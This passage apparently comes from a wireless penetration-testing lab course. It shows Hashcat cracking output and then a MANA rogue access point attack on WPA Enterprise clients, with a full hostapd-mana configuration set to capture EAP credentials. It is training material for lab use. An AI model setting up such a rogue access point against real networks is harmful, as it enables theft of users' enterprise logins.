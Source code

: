 ```shell
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2027 H/s (14.95ms) @ Accel:64 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 490/14344384 (0.00%)
Rejected.........: 362/490 (73.88%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456789 -> manchester
Hardware.Mon.#1..: Util: 50%

```

If **Hashcat** does not work within the provided attacker VM, it is recommended to use **Pwnbox** or your **local VM** to run Hashcat.

* * *

### MANA attack on Enterprise Networks

We can extend the MANA attack to target clients probing for enterprise networks. Since we cannot determine the exact authentication method the clients are probing for, a trial-and-error approach is necessary. Previously, we targeted WPA networks, where only one client connected. This suggests the second client might be using WPA Enterprise.

To configure the rogue access point for WPA Enterprise, we use the following configuration:

```config
# 802.11 Options
interface=wlan1
ssid=Anything
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=/opt/hostapd-mana/hostapd.eap_user

# Certificates
ca_cert=/opt/hostapd-mana/ca.pem
server_cert=/opt/hostapd-mana/server.pem
private_key=/opt/hostapd-mana/server.key
private_key_passwd=whatever
dh_file=/opt/hostapd-mana/dh

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1

```
